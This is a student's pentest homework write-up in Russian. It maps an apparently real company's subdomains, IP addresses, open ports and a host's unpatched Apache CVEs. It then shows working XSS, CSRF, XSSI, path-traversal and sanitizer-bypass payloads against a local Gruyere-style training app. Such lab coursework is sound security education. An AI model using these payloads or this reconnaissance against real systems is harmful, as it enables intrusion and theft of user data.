

# Домашнее задание к занятию «Penetration Testing. Часть 1»
### Задание 1

После использования утилиты theHarvester было найдено
7 e-mail адресов и 2 домена.


После поиска результатов на Censys, было найдено 9 ip-адресов, включая адреса головной компании, почтовые сервера, ip-телефония, открытые ssh порты.

Зона ip-адресов: `Moscow, Russia`  
Домены вернего уровня: `ru`  

-----
Субдомены:  
<details>
<summary>ns1.head-point.ru. (213.33.142.146)</summary><blockquote>

- 25/TCP (Cisco Ironport)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>ns2.head-point.ru. (37.18.85.126)</summary><blockquote>
Systematic Ltd

- 25/TCP (Cisco Ironport)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>ns3.head-point.ru. (213.251.242.125)</summary><blockquote>
AO Countrycom  
OS Linux Ubuntu

- 22/TCP (OpenSSH8.2p1 Ubuntu-4ubuntu0.1)
</blockquote></details>

<details>
<summary>ironport3.head-point.ru. (37.18.85.8)</summary><blockquote>
Systematic Ltd
OS Windows 

- 443/TCP (Microsoft IIS)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>ironport2.head-point.ru. (213.33.142.146)</summary><blockquote>
Systematic Ltd

- 25/TCP (Cisco Ironport)
- 1723/TCP (PPTP)
</blockquote></details>

<details>
<summary>mail.head-point.ru. (37.18.85.4) </summary><blockquote>
Systematic Ltd
OS Microsoft Windows

- 25/SMTP (Cisco PIX)
- 110/POP3 (Microsoft Exchange Server)
- 143/IMAP (Microsoft Exchange Server)
- 443/HTTP (Microsoft IIS)
</blockquote></details>

-------
Связанные адреса:  
<details>
<summary>213.251.249.180</summary><blockquote>

- 443/HTTP (Fortinet FortiOS)
- 8022/SSH (версия 2)
- 8443/HTTP
</blockquote></details>

<details>
<summary>213.251.242.116</summary><blockquote>

- 80/HTTP
- 443/HTTP
</blockquote></details>

<details>
<summary>213.251.242.121</summary><blockquote>
OS - Ubuntu Linux 20.04

- 80/HTTP
- 443/HTTP
- 2222/SSH (OpenBSD OpenSSH 9.0)
- 5000/TCP
- 6000/TCP
- 8008/TCP
- 38654/SSH (OpenBSD OpenSSH 8.2 )

</blockquote></details>

<details>
<summary>213.251.242.122</summary><blockquote>
OS -linux

- 80/HTTP
- 443/HTTP
- 2222/SSH (OpenBSD OpenSSH 9.0)
- 5000/TCP
- 6000/TCP
- 8008/TCP
</blockquote></details>

<details>
<summary>185.26.112.39</summary><blockquote>
OS - Ubuntu Linux 12.04

- 22/SSH (OpenBSD OpenSSH 5.9)
- 25/SMTP (Postfix)
- 80/HTTP (Apache HTTPD 2.2.22)
<details>
<summary>Уязвимости</summary>
<blockquote>

- CVE-2014-0118
- CVE-2022-28614
- CVE-2017-9798
- CVE-2022-29404
- CVE-2015-3183
- CVE-2014-0098
- CVE-2022-28330
- CVE-2012-3499
- CVE-2012-4558
- CVE-2013-1896
- CVE-2016-8612
- CVE-2014-0226
- CVE-2022-22721
- CVE-2022-22720
- CVE-2013-5704
- CVE-2017-7679
- CVE-2013-6438
- CVE-2012-2687
- CVE-2022-37436
- CVE-2016-5387
- CVE-2021-40438
- CVE-2022-31813
- CVE-2008-0455
- CVE-2017-9788
- CVE-2018-1301
- CVE-2018-1302
- CVE-2018-1303
- CVE-2017-3167
- CVE-2021-34798
- CVE-2012-0883
- CVE-2017-3169
- CVE-2015-0228
- CVE-2021-44790
- CVE-2014-0231
- CVE-2013-1862
- CVE-2016-4975
- CVE-2006-20001
- CVE-2016-8743
- CVE-2022-22719
- CVE-2022-28615
- CVE-2022-30556
- CVE-2021-39275
</blockquote>
</details>

</blockquote></details>

<details>
<summary>37.18.85.4</summary><blockquote>
OS - Microsoft Windows
Organization - Systematic Ltd

- 25/SMTP (Cisco PIX sanitized smtpd)
- 110/POP3 (Microsoft Exchange Server)
- 143/IMAP (Microsoft Exchange Server)
- 443/HTTP (Microsoft IIS)

<details>
<summary>Домены</summary><blockquote>

- mail.head-point.ru
- mail.nccme.ae
- autodiscover.head-point.ru
- mail.gcs.ru
- autodiscover.gcs.ru
- autodiscover.ncc.ru

</blockquote>
</details>

</blockquote></details>

<details>
<summary>37.140.192.97</summary><blockquote>
OS - Microsoft Windows
Organization - Reg.Ru Hosting

- 21/TCP (Microsoft FTP Service)
- 25/TCP (MailEnable smptd)
- 53/UDP
- 80/TCP (Microsoft-IIS/10.0 ASP.NET)
- 110/TCP (MailEnable POP3 Server)
- 135/TCP (Microsoft RPC Endpoint Mapper)
- 443/TCP (PleskWin)
- 465/TCP (MailEnable smptd)
- 587/TCP (MailEnable smptd)
- 993/TCP (IMAP4rev1 server)
- 1433/TCP (Windows 10/Windows Server 2019 10.0.17763)
- 8443/TCP (Microsoft-IIS/10.0 ASP.NET)
- 8880/TCP (Microsoft-IIS/10.0 ASP.NET)
</blockquote></details>

------

Так же есть результаты поиска документов в общем доступе:   


------
## Задание 2
### XSS
Смотрим как система реагирует на несуществующую страницу:  
`http://localhost:8008/452002223606703030856276251408421215266/test`  


 Далее используем XSS локатор из [OWASP CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.md)  

Локатор:  
 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`  

XSS:  
 `http://localhost:8008/530192841835716474238212610358927358482/%3Csvg/onload=alert(document.cookie)//'%3E`

   

------
 ### XSRF

На портале есть возможность добавления пользовательских сниппетов. При просмотре списка сниппетов есть кнопки удаления сниппетов и запрос вида  
`http://localhost:8008/530192841835716474238212610358927358482/deletesnippet?index=0`

Если заставить пользователя пройти по ссылке и провести атаку через хранимую XSS можно удалить сниппет от имени пользователя.  

  

Создаем страницу со скрытой ссылкой  
```
<link href="http://localhost:8008/551451167496643649739844506544308983555/deletesnippet?index=0" rel="stylesheet noreferrer" type="text/css">
<iframe width="1000px" height="1000px" src="http://localhost:8008/551451167496643649739844506544308983555/snippets.gtl"></iframe>
```

  

 ------

 ### XSSI
Создаем страницу с подключением скрипта `feed.gtl`  
На своей странице переопределяем функцию `_feed`  
```
<script>
    function _feed(data) {
      alert("Private user data: " + JSON.stringify(data));
    }
</script>
<script src="http://localhost:8008/551451167496643649739844506544308983555/feed.gtl"></script>
```


 ------

 ### Path traversal

Создаем двух пользователей `test`, `hacker`  
Добавляем файлы для обоих пользователей.  


Далее пытаемся читать чужой файл составляя ссылку по аналогии со своей.  

```
http://localhost:8008/551451167496643649739844506544308983555/test/secret.txt
```

  

Можно читать файлы из корневой директории программы  
Пример запроса:  
```
http://localhost:8008/551451167496643649739844506544308983555/hacker%2F..%2F..%2Fsecret.txt
```
  

 ------

 ### Code Execution

Создаем пользователя с именем `..`  
Редактируем файл `sanitize.py`, удаляем ограничения на атрибуты событий:  
```
disallowed_attributes = [
      'onblur', 'onchange', 'onclick', 'ondblclick', 'onfocus',
      'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmousedown',
      'onmousemove', 'onmouseout', 'onmouseup', 'onreset',
      'onselect', 'onsubmit', 'onunload'
  ]
```
Загружаем измененный файл и перезагружаем сервер 
вызвав метод сервера  
 `def _DoQuitserver(self, cookie, specials, params)`  

  
  


Создаем новый сниппет:  
`<i onmouseup="alert(document.cookie)">Focus</i>`  


Проверяем изменения:  


------


